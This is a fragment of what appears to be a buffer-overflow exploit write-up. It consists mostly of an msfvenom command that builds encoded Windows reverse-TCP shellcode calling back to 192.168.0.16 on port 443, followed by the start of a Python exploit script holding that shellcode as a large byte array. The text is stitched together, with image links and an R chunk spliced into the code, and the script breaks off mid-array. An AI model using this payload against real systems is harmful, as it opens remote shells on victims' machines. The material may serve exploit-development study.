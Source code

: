 ![Buff-BadChars](/assets/images/Buff-BadChars.png) 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.0.16 LPORT=443 -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -f c
```

```{r, echo = FALSE, fig.cap="Buf Shell code", out.width="90%"}
    knitr::include_graphics("images/Buff-Shell-code.png")
```

```python
#!/usr/bin/python3

import socket
import signal
import pdb
import sys
import time
# Variables globales
![Buff-Shell-code](/assets/images/Buff-Shell-code.png) 
remoteAddress = "127.0.0.1"

def executeExploit():
    shellcode = (b"\xba\xf8\x9f\xaf\x72\xda\xce\xd9\x74\x24\xf4\x5d\x31\xc9\xb1"
        b"\x52\x31\x55\x12\x83\xc5\x04\x03\xad\x91\x4d\x87\xb1\x46\x13"
        b"\x68\x49\x97\x74\xe0\xac\xa6\xb4\x96\xa5\x99\x04\xdc\xeb\x15"
        b"\xee\xb0\x1f\xad\x82\x1c\x10\x06\x28\x7b\x1f\x97\x01\xbf\x3e"
        b"\x1b\x58\xec\xe0\x22\x93\xe1\xe1\x63\xce\x08\xb3\x3c\x84\xbf"
        b"\x23\x48\xd0\x03\xc8\x02\xf4\x03\x2d\xd2\xf7\x22\xe0\x68\xae"
        b"\xe4\x03\xbc\xda\xac\x1b\xa1\xe7\x67\x90\x11\x93\x79\x70\x68"
        b"\x5c\xd5\xbd\x44\xaf\x27\xfa\x63\x50\x52\xf2\x97\xed\x65\xc1"
        b"\xea\x29\xe3\xd1\x4d\xb9\x53\x3d\x6f\x6e\x05\xb6\x63\xdb\x41"
        b"\x90\x67\xda\x86\xab\x9c\x57\x29\x7b\x15\x23\x0e\x5f\x7d\xf7"
        b"\x2f\xc6\xdb\x56\x4f\x18\x84\x07\xf5\x53\x29\x53\x84\x3e\x26"
        b"\x90\xa5\xc0\xb6\xbe\xbe\xb3\x84\x61\x15\x5b\xa5\xea\xb3\x9c"
        b"\xca\xc0\x04\x32\x35\xeb\x74\x1b\xf2\xbf\x24\x33\xd3\xbf\xae"
        b"\xc3\xdc\x15\x60\x93\x72\xc6\xc1\x43\x33\xb6\xa9\x89\xbc\xe9"
        b"\xca\xb2\x16\x82\x61\x49\xf1\x6d\xdd\x51\x11\x06\x1c\x51\x10"
        b"\x6d\xa9\xb7\x78\x81\xfc\x60\x15\x38\xa5\xfa\x84\xc5\x73\x87"
        b"\x87\x4e\x70\x78\x49\xa7\xfd\x6a\x3e\x47\x48\xd0\xe9\x58\x66"
        b"\x7c\x75\xca\xed\x7c\xf0\xf7\xb9\x2b\x55\xc9\xb3\xb9\x4b\x70"
        b"\x6a\xdf\x91\xe4\x55\x5b\x4e\xd5\x58\x62\x03\x61\x7f\x74\xdd"
        b"\x6a\x3b\x20\xb1\x3c\x95\x9e\x77\x97\x57\x48\x2e\x44\x3e\x1c"
```